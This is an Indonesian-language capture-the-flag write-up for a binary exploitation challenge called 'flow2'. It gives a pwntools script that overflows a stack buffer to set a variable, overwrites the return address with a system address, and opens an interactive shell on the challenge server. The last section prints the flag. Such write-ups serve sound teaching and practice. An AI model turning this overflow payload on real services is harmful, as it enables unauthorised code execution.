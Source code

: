 # flow2

## Deskripsi
`nc 165.22.107.94 17002`

## Attachment
[chall](./Challenge/chall)

## Solusi
Diberikan suatu file binary dan langsung melakukan pengecekan dengan menggunakan Ghidra yang merupakan salah satu tool yang umum digunakan untuk reverse engineering. 
Langkah pertama kita melakukan pengecekan terhadap fungsi main(). 
Berikut adalah tampilan decompile dari fungsi main tersebut pada Ghidra.

![Decompile the binary](./chall-decompile.png)

Berdasarkan hasil decompile dari fungsi main tersebut, kita dapat melakukan eksploitasi pada fungsi main. 
Teknik eksploitasi yang digunakan adalah Return-Oriented Programming (ROP). 
ROP merupakan teknik untuk membypass mekanisme keamanan seperti Data Execution Prevention (DEP) dan Address Space Layout Randomization (ASLR) dengan cara memanipulasi existing code. Di sini kita harus melakukan overwrite nilai dari variabel `local_14` dengan nilai `0x4170417`, cara yang dilakukan adalah dengan membuat input untuk overflows buffer `local_54` dan overwrite nilai dari `local_14`.

Berikut adalah code yang kami buat dan tampilan ketika code tersebut dijalankan.

```py
from pwn import *

io = remote('165.22.107.94', 17002)

offset = 64
desired_value = p32(0x4170417)
system_addr = p64(0x401050)

payload = b'A' * offset + desired_value + b'A' * 4 + system_addr

io.sendline(payload)
io.interactive()
```

![Flag](./flow2.png)

## Flag
### KMIPN{U_CAN_CONTROL_THE_VALUE_NOW!!!_LINZ_IS_HERE}
